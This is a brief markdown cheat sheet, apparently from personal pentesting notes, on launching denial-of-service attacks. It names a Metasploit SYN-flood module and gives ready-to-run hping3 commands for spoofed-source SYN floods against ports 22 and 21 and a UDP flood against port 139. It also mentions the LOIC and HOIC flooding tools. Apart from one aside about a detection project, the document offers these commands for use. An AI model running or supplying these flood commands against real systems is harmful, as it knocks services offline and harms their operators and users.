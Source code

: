 # DOS Attacks
If we want to flood any particular ports, then we got to first find the running and open ports. 

Metasploit has many modules related to DOS which can be found under "**auxiliary/dos/**"

> auxiliary/dos/tcp/synflood

Moreover, we can also used HPING3 (The one i used in my Final Year Project for Detecting DOS Attacks using C#)

```
hping3 -S <Target IP> -a <Spoofed IP> -p 22 --flood

where,

-S --> SYN Flag to send SYN Packets
-a --> Spoofed IP
-p --> port


hping3 -d 70000 -S <Target IP> -p 21 --flood

where,

-d --> Data size
```

Similarly, we can also perform UDP DOS Attacks

```
hping3 -2 -p 139 --flood <Target IP>

-2 --> Enabled UDP Mode
```

There are other tools are well named

- LOIC
- HOIC

But these tools are outdated and were build years ago.